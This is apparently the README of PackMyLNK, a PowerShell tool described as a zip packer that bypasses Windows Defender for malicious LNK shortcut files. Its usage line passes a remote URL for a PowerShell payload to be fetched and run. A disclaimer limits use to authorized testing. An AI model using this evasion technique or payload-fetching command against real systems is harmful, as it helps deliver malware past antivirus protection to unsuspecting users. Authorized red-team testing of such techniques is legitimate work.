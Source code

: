 # PackMyLNK
A simple Zip packer to bypass Windows Defender for malicious LNK files

## Usage
`.\PackMyLNK.ps1 -Url http://example.com/payload-to-execute.ps1`

___

#### DISCLAIMER: This tool is intended for testing and educational purposes only. It should only be used on systems with proper authorization. Any unauthorized or illegal use of this tool is strictly prohibited. The creator of this tool holds no responsibility for any misuse or damage caused by its usage.
